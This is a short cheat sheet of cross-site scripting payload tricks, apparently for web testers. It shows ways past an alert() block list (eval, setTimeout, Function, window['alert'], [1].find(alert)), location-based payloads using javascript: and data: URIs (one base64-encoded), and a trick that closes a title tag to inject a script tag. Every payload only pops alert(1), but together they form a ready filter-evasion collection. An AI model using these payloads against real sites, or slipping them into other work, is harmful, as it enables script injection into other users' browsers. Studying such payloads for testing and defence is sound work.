*XSS Payload Tricks:


For example, if the developer has blocked the alert function, the following trick can be used to bypass it:


 -function blacklist => alert()
        use eval() function , eval("string")
        eval() => Receives and executes the string
                      eval("alert(1)")

                      
Of course, alert, which is placed in eval as a string, can be encoded in different ways and placed in eval.

    
like eval:

            - setTimeout("string",time)
            - setInterval("string",time)
            - Function("string")


*You can also use this trick to specify the object of a class:

    -window.alert(1) => window["alert"](1)


 -like window:
 
     this , top , self , parent , frames 



    -[1].find(alert)
       -like find: 
   
         map, forEach , filter
          [1].find(window[`alert`])


*location based XSS: 

    <iframe src="javascript:alert(1)"  >
    <embed src="javascript:alert(1)" >
    <a href="javascript:alert(1)">alert</a>
    <iframe src="data:text/html, <svg onload=alert(1) >" >
    <iframe src="data:text/html; Base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSkgPgo=" >


*You can't add <script> tag between <title>, <script>, <noscript> and <textarea> tags because it doesn't work!
So these tags should be closed first to do XSS:

    <title>Input</title> 
    
    hacker PAYLOAD => </title><script>alert(1);</script>



    
